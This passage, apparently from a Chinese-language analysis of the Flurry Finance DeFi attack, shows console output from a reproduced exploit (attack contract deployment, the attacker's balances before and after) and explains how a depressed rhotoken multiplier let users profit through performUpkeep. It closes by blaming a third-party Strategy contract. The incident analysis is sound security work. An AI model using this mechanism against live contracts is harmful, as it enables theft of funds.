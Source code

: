 攻击结果：

```
attack contract deployed to: 0x4BCD98b42fd74c8f386E650848773e841A5d332B
Transfer 203073438574967167623188420 BUSD from 0xEFDca55e4bCE6c1d535cb2D0687B5567eEF2AE83 to 0x4BCD98b42fd74c8f386E650848773e841A5d332B
step 2
attacker BUSD before:  BigNumber { value: "203073438574967167623187419" }
attacker BUSD after:   BigNumber { value: "203090587098027369704261350" }
attacker Mbefore:  BigNumber { value: "751295171398263007193096695790421526" }
attacker Mafter:   BigNumber { value: "904605593422534980373597747412875634" }
attacker rho before:  BigNumber { value: "84036051832809300867950" }
attacker rho after:   BigNumber { value: "101184574893011381941881" }
```

由于之前的攻击，导致 rhotoken 的 multiplier低于正常值，用户可以用稳定币以低价换取rhotoken。调用完performUpkeep后multiplier回归正常值，用户之前换取的rhotoken的数量就会增加（大概是之前的1.2倍），此时用户将rho换回稳定币即可获利。

## 总结

本次攻击FlurryFinance的实现本身没有问题，漏洞点出现在第三方的Strategy合约，但是FlurryFInance本身的设计中标的资产存储地址和用于计算币价的存储地址不同，间接的导致了攻击的发生。







